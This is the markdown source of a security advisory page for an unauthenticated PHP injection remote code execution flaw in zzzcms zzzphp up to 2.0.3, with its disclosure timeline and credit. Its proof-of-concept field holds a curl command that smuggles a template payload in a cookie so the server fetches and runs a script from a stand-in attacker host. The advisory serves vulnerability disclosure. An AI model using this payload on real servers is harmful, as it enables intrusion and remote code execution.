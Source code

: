 ```yaml
---
layout: page
permalink: /advisories/src-2021-0015/
id: SRC-2021-0015
atitle: zzzcms zzzphp parserIfLabel PHP Injection Remote Code Execution Vulnerability
CVE: N/A
CVSSrating: 9.8
CVSSscore: (/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
vendor: zzzcms
affected: zzzphp <= 2.0.3
timeline: [
2021-04-27 – Sent to zzzcms,
2021-05-04 – No response from the vendor,
2021-05-04 – Sent an email requesting a status update,
2021-05-11 – No response from the vendor,
2021-05-11 – Vendor releases 2.0.4 with the note - "Fix a security loophole please update it in time.",
2021-05-11 – Uncoordinated public release of advisory,
]
credit: Steven Seeley (mr_me) of Qihoo 360 Vulcan Team
body: |
 <p class="cn" markdown="1">This vulnerability allows remote attackers to execute arbitrary code on affected installations of zzzcms. Authentication is not required to exploit this vulnerability.</p>
 <p class="cn" markdown="1">The specific flaw exists within the processing of the search template. The issue results from the lack of proper validation of user-supplied keys when processing the search template. An attacker can leverage this vulnerability to execute code in the context of the web server.</p>
acknowledgments:
poc: curl -b 'keys={if:=`curl http://attacker.tld/poc.sh|bash`}{end if}' 'http://target.tld/?location=search'
---
```


#### **{{page.id}} : {{page.atitle}}**

**CVE ID:**
{{page.CVE}}

**CVSS Score:**
{{page.CVSSrating}}, [{{page.CVSSscore}}](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector={{page.CVSSscore}})

**Affected Vendors:**
{{page.vendor}}

**Affected Products:**
{{page.affected}}
{% if page.affectedlist %}
{% for item in page.affectedlist %}
  - {{ item }}
{% endfor %}
{% endif %}
**Vulnerability Details:**
{{page.body}}

**Vendor Response:**

{{page.vendor}} has issued an update to correct this vulnerability. More details can be found at: [http://www.zzzcms.com/a/news/31_282_1.html](http://www.zzzcms.com/a/news/31_282_1.html)

**Disclosure Timeline:**
{% for item in page.timeline %}
  - {{ item }}
{% endfor %}
{% if page.poc %}

**Proof of Concept:**
```{{page.poc}}```

{% endif %}
**Credit:**
This vulnerability was discovered by {{page.credit}}
{% if page.acknowledgments %}

**Acknowledgments:**
{{page.acknowledgments}}
{% endif %}
